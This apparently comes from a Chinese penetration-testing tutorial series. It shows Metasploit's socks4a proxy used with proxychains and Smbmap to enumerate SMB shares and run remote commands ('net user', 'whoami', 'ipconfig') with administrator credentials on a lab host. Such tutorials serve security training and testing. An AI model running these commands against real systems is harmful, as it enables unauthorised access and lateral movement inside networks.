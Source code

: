 msf 在配合其它框架攻击，可补充 msf 本身的不足以及强化攻击方式，优化攻击线路。本季将会把 msf 与 Smbmap 结合攻击。弥补 msf 文件搜索以及文件内容搜索的不足。

项目地址：https://github.com/ShawnDEvans/smbmap

* 支持传递哈希  
* 文件上传/下载/删除  
* 可枚举（可写共享，配合Metasploit）  
* 远程命令执行  
* 支持文件内容搜索  
* 支持文件名匹配（可以自动下载）  
* msf配合Smbmap攻击需要使用到sock4a模块

```bash
msf auxiliary(server/socks4a) > show options
```
![](media/f7b132114e46760984cd298213740f4d.jpg)

该模块socks4a加入job
```bash
msf auxiliary(server/socks4a) > jobs
```
![](media/c38221c680e3e078414ebb4cfe8ecb66.jpg)

配置proxychains，做结合攻击铺垫。
```bash
root@John:/tmp# cat /etc/proxychains.conf
```
![](media/9fb4144cb5b4c7825b4ad698f740f3f5.jpg)  

![](media/33f8922e2c8e134f96f3ca546e96c420.jpg)

支持远程命令

```bash
root@John:/tmp\# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐x 'net user'
```
![](media/0d745135d03f66c1ec9bc97c844730f5.jpg)  

```bash
root@John:/tmp# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐x 'whoami'
```
![](media/c7d86f93c68a049ada011d3067384b07.jpg)

枚举目标机共享
```bash
root@John:/tmp# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐d ABC
```
![](media/e28af8ca88f58bb38cf7e10087ab35d6.jpg)

```bash
root\@John:/tmp\# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐x 'ipconfig'
```
![](media/123a8b0a7824f57dd5a78f5861b8baea.jpg)

Smbmap支持IP段的共享枚举，当然Smbmap还有更多强大的功能等待探索。

> Micropoor
